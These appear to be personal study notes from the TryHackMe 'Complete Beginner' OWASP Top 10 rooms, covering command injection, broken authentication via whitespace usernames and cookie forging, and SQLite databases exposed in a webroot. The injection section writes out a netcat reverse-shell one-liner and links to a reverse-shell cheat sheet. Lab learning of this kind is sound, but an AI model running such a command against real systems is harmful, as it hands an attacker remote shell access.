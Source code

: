 # TryHackMe: Complete Beginner

author:: Nathan Acks  
date:: 2021-10-05

# OWASP Top 10

## (Severity 01) Injection

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like:

```bash
nc -e /bin/bash $LOCAL_IP $LOCAL_PORT
```

I'm pretty sure that this would have allowed us to avoid all of the named-pipe-magic that Metsploit generated a couple of days ago... Though I'm also pretty sure that Metasploit's code is more robust (since it will work with versions of nc that *don't* support the -e flag).

[A library of reverse shell methods.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injection attacks can be divided into two broad classes:

BLIND attacks are ones where command output is not returned to the attacker in a server response.

ACTIVE attacks are those where the command output *is* returned to the attacker in a server response.

* [2021-10-02 - TryHackMe: Complete Beginner](2021-10-02-tryhackme-complete-beginner.md)

## (Severity 02) Broken Authentication

Sometimes you don't need to steal a session cookie... If the webserver isn't setting session cookies in a sufficiently random fashion, *forging* one can become an option!

The TryHackMe tutorial implies that a common mistake is to allow the registration of a username that matches an existing user but with a leading or trailing whitespace character; sometimes this new user will be interpreted to be the same as the old user (the one without the whitespace), resulting in the same level of access as that user.

Honestly, I'm trying to imagine how this would happen in most realistic contexts. Yes, it's easy to construct an example in Bash (etc.), but most languages I've seen web apps written it take string quoting a lot more seriously.

## (Severity 03) Sensitive Data Exposure

So, the trick this section is talking about is that some small web applications use SQLite databases, and a sloppy webdev might store the database file in the application webroot where it can be downloaded and then read at our leisure.
